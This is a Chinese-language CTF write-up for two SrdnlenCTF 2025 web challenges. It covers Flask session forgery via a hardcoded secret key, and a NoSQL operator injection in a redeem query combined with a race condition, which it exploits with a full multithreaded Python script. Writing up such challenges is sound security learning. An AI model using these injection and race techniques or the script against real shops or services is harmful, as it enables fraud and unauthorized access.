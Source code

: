 # SrdnlenCTF 2025


# srdnlen

## web

### Ben 10

题目描述说 Ben 10 有好东西，但是注册账号后发现不让访问

附件中的 app.py 给出了 app.secret_key = &#39;your_secret_key&#39;

把 jwt 用 flask-session-cookie-manager 解密，发现只有 username

![m63nh67z.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/19/678cfd4f54791.png)

从 app.py 中可以看到注册用户时也一起注册了一个对应的 admin 用户

```py
@app.route(&#39;/register&#39;, methods=[&#39;GET&#39;, &#39;POST&#39;])
def register():
    admin_username = f&#34;admin^{username}^{secrets.token_hex(5)}&#34;
    cursor.execute(&#34;INSERT INTO users (username, password, admin_username) VALUES (?, ?, ?)&#34;,
                           (admin_username, admin_password, None))
    conn.commit()
```

而 admin_username 在 /home 中显示

![m63nkpbe.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/19/678cfdf3f35a2.png)

所以进行 session 伪造

![m63nntuw.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/19/678cfe85f3d47.png)

GET /image/ben10 ，拿到 flag

![m63nsvou.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/19/678cff71b7ebf.png)

&gt; srdnlen{b3n_l0v3s_br0k3n_4cc355_c0ntr0l_vulns}

### Focus. Speed. I am speed.

群里师傅说打 nosql &#43; 竞争，那我就照着打了qwq

![m63oa7cc.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/19/678d0299e048f.png)

应该要买第4个，50 points

![m63ocvz8.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/19/678d0317070ee.png)

网页都访问一遍，发现在 GET /redeem?discountCode=xxx 有查询

翻一下代码，顺着找到：

routes.js

```javascript
const discount = await DiscountCodes.findOne({discountCode})
```

discountCodes.js

```javascript
const DiscountCodeSchema = new mongoose.Schema({
    discountCode: {
        type: String,
        default: null, // Optional field for discount codes
    },
    value: {
        type: Number,
        default: 10
    }
})

module.exports = mongoose.model(&#39;DiscountCodes&#39;, DiscountCodeSchema)
```

注一下试试看，确实可以

![m63pxcd8.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/19/678d0d6126433.png)

但是礼品卡说是一天只能兑换一次，找代码

routes.js

```javascript
// Check if the voucher has already been redeemed today
        const today = new Date();
        const lastRedemption = user.lastVoucherRedemption;

        if (lastRedemption) {
            const isSameDay = lastRedemption.getFullYear() === today.getFullYear() &amp;&amp;
                              lastRedemption.getMonth() === today.getMonth() &amp;&amp;
                              lastRedemption.getDate() === today.getDate();
            if (isSameDay) {
                return res.json({success: false, message: &#39;You have already redeemed your gift card today!&#39; });
            }
        }

        // Apply the gift card value to the user&#39;s balance
        const { Balance } = await User.findById(req.user.userId).select(&#39;Balance&#39;);
        user.Balance = Balance &#43; discount.value;
        // Introduce a slight delay to ensure proper logging of the transaction 
        // and prevent potential database write collisions in high-load scenarios.
        new Promise(resolve =&gt; setTimeout(resolve, delay * 1000));
        user.lastVoucherRedemption = today;
        await user.save();
```

在保存之前，setTimeout(delay * 1000 ms)，所以我们通过并发请求访问 balance 来制造竞争条件

一直 buy 第一辆🚗，然后重复兑换礼品卡

```py
import time
import requests
import threading
import json

url = &#34;http://speed.challs.srdnlen.it:8082&#34;

# 账号注册
url_register = f&#34;{url}/register-user&#34;
data_user = {&#34;username&#34;: &#34;mingzuxxxxxxxxxxxxxxx&#34;, &#34;password&#34;: &#34;123&#34;}
try:
    response = requests.post(url_register, json=data_user)
    jwt = response.headers[&#34;Set-Cookie&#34;].split(&#34;;&#34;)[0].split(&#34;=&#34;)[1]
    print(jwt)
except Exception as e:
    print(e)

# 竞争
url_store = f&#34;{url}/store&#34;
headers = {&#39;Cookie&#39;: f&#39;jwt={jwt}&#39;,}
data_buy = {&#34;productId&#34;: 1}

def send_request():
    try:
        response = requests.post(url_store, headers=headers, json=data_buy)
        # print(f&#34;Status Code: {response.status_code}, Response Text: {response.text}&#34;)
    except Exception as e:
        print(f&#34;Request failed: {e}&#34;)

def send_requests():
    while True:
        send_request()

def race(thread_num):
    threads = []
    for _ in range(thread_num):
        thread = threading.Thread(target=send_requests)
        threads.append(thread)
        thread.start()

    for thread in threads:
        thread.join()

# 偷点数
url_redeem = f&#34;{url}/redeem?discountCode[$ne]=1&#34;

def steal_points():
    while True:
        try:
            response = requests.get(url_redeem, headers=headers)
            # print(f&#34;Status Code: {response.status_code}, Response Text: {response.text}&#34;)
            if json.loads(response.text)[&#34;success&#34;]:
                print(f&#34;Steal Points Successfully: {json.loads(response.text)[&#34;message&#34;]}&#34;)
        except Exception as e:
            print(f&#34;Request failed: {e}&#34;)

def steal_points_rapidly(thread_num):
    threads = []
    for _ in range(thread_num):
        thread = threading.Thread(target=steal_points)
        threads.append(thread)
        thread.start()

    for thread in threads:
        thread.join()

# steal_points()

# 执行
def execute():
    thread_race = threading.Thread(target=race, args=(100,))
    thread_steal = threading.Thread(target=steal_points_rapidly, args=(100,))

    thread_race.start()
    time.sleep(1)
    thread_steal.start()

execute()
```

![m63t610z.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/20/678d22a51cff7.png)

拿到 60 points ，买到辣

![m63t79zl.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/20/678d22df872ca.png)

&gt; srdnlen{6peed_1s_My_0nly_Competition}


---

> 作者: [M1ng2u](https://m1ng2u.github.io/)  
> URL: http://localhost:1313/cybersec/4f8b201/  

